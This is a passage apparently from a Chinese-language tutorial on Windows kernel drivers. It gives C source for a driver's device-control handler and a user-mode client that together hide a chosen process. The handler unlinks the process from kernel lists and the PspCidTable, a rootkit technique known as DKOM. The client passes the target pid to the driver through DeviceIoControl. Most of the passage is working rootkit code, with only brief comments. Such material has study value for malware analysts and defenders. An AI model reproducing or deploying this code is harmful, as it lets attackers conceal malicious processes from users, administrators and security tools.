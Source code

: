 ```c
case IRP_MJ_DEVICE_CONTROL:
    // 取得從應用程式傳來的資料
    inputBufferLength = ioStackLocation->Parameters.DeviceIoControl.InputBufferLength;
    outputBufferLength = ioStackLocation->Parameters.DeviceIoControl.OutputBufferLength;
    ioControlCode = ioStackLocation->Parameters.DeviceIoControl.IoControlCode;
    HANDLE processId = *(HANDLE*)pIrp->AssociatedIrp.SystemBuffer;

    // 根據 IoControlCode 做對應處理
    switch (ioControlCode)
    {
        case HIDE_PROCESS:
            // 隱藏目標 Process
            PsLookupProcessByProcessId(processId, &pEprocess);
            UnlinkActiveProcessLists(pEprocess);
            UnlinkHandleTableList(pEprocess);
            UnlinkProcessListEntry(pEprocess);
            NullPspCidTable((ULONG64)processId);
            break;
        default:
            break;
    }
    break;
```


### 應用程式
從應用層呼叫 `DeviceIoControl` 將資料傳入驅動程式，也就是要隱藏的目標 pid。

```c
#include <iostream>
#include <Windows.h>
#include <winioctl.h>

#define SymLinkName L"\\\\.\\HideProcess"
#define HIDE_PROCESS CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        std::cout << "CreateFile error: " << GetLastError() << std::endl;
        return 1;
    }

    DWORD dwWrite;
    DWORD ProcessId;
    std::cout << "Give me a pid: ";
    std::cin >> ProcessId;

    // 呼叫 DeviceIoControl 將資料傳入驅動程式，也就是要隱藏的目標 pid
    DeviceIoControl(hDevice, HIDE_PROCESS, &ProcessId, sizeof(ProcessId), NULL, 0, &dwWrite, NULL);

    CloseHandle(hDevice);

    return 0;
}
```
